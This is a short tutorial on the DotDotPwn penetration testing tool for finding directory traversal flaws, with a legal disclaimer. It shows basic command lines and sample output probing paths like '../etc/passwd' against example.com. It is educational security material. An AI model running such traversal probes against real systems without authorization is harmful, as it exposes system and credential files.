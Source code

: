 ## Notice

> The techniques and methods discussed in this blog are intended for educational purposes only, and should not be used without proper training, authorization, and legal consent. Any unauthorized or illegal use of these techniques may result in severe legal consequences, including criminal charges and civil lawsuits. The author of this blog assumes no responsibility or liability for any misuse or harm resulting from the use of the information provided. It is important to use caution and conduct penetration testing only with proper authorization and legal safeguards in place.

## Introduction

DotDotPwn is a versatile penetration testing tool designed to identify and exploit directory traversal vulnerabilities in web applications. It assists security professionals and penetration testers in evaluating the security of web servers by simulating attacks that attempt to access files and directories beyond their intended scope.

DotDotPwn automates the process of crafting malicious requests with various traversal patterns and payloads, enabling users to test the target application for directory traversal vulnerabilities. It supports multiple protocols, including HTTP, FTP, and more, making it suitable for a wide range of web and network applications. With its user-friendly command-line interface and extensive options for customization, DotDotPwn provides an effective means to assess the security posture of web applications and identify potential vulnerabilities that could lead to unauthorized access or data exposure.

## Usage

### Basic Usage

The option `-m` (module) and `-h` (hostname) are neccesary.

Available modules: `http`, `http-url`, `ftp`, `tftp`, `payload`, `stdout`.

```sh
dotdotpwn -m http -h example.com
```

```
[*] HTTP Status: 403 | Testing Path: http://example.com:80/../etc/passwd
[*] HTTP Status: 403 | Testing Path: http://example.com:80/../etc/issue
[*] HTTP Status: 404 | Testing Path: http://example.com:80/../../etc/passwd
[*] HTTP Status: 404 | Testing Path: http://example.com:80/../../etc/issue
[*] HTTP Status: 404 | Testing Path: http://example.com:80/../../../etc/passwd
...
```

### Specified HTTP Method

If you choose `http` module, you can also use option `-M` to  specify the HTTP method to use.

Available HTTP methods: `GET`, `POST`, `HEAD`, `COPY`, `MOVE`.

```sh
dotdotpwn -m http -M POST -h example.com
```

